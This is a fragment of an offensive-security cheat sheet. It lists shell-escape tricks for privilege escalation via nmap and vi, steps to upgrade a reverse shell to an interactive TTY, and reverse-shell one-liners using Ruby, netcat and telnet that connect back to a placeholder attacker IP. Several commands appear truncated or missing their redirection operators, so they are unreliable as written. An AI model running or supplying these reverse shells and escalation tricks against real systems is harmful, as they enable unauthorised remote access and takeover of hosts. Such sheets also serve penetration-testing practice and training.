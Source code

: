 - LUA

```bash
!sh
```

- Privilege Escalation via nmap

```bash
:!bash
```

- Privilege escalation via vi

### Fully Interactive TTY

```
                                In reverse shell 
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
                                In Attacker console
stty -a
stty raw -echo
fg
                                In reverse shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```

### **Spawn Ruby Shell**

```bash
exec "/bin/sh"
```

```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d
```

### **Netcat**

```bash
nc -e /bin/sh ATTACKING-IP 80
```

```bash
/bin/sh | nc ATTACKING-IP 80
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### **Telnet Reverse Shell**

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```
